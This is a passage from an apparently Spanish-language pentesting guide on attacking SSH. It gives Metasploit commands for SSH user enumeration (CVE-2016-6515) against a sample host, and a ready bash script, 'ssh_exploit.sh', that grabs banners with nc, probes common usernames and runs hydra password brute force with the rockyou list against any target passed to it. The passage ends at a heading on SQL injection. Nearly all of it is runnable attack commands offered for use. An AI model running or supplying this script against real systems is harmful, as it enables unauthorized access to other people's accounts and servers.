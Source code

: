 ### 2. Explotación de Vulnerabilidades SSH

```bash
# CVE-2016-6515 (User enumeration)
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS 192.168.1.100
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
run

# SSH key-based attacks
ssh-keyscan 192.168.1.100
ssh-audit 192.168.1.100
```

### 3. Script de Automatización SSH

```bash
#!/bin/bash
# ssh_exploit.sh - Automatización de ataques SSH

TARGET=$1
USERLIST="admin,root,user,test,guest"
PASSLIST="/usr/share/wordlists/rockyou.txt"

if [ -z "$TARGET" ]; then
    echo "Uso: $0 <target>"
    exit 1
fi

echo "[+] Iniciando ataques SSH contra: $TARGET"

# 1. Banner grabbing
echo "[+] Obteniendo banner SSH..."
nc $TARGET 22 | head -1

# 2. Enumeración de usuarios
echo "[+] Enumerando usuarios..."
for user in $(echo $USERLIST | tr ',' ' '); do
    timeout 5 ssh -o ConnectTimeout=3 $user@$TARGET "echo 'Usuario válido: $user'" 2>/dev/null
done

# 3. Fuerza bruta con usuarios comunes
echo "[+] Ejecutando fuerza bruta..."
hydra -L <(echo $USERLIST | tr ',' '\n') -P $PASSLIST ssh://$TARGET -t 4

echo "[+] Escaneo SSH completado"
```

## 🌐 Explotación de Servicios Web

### 1. Inyección SQL
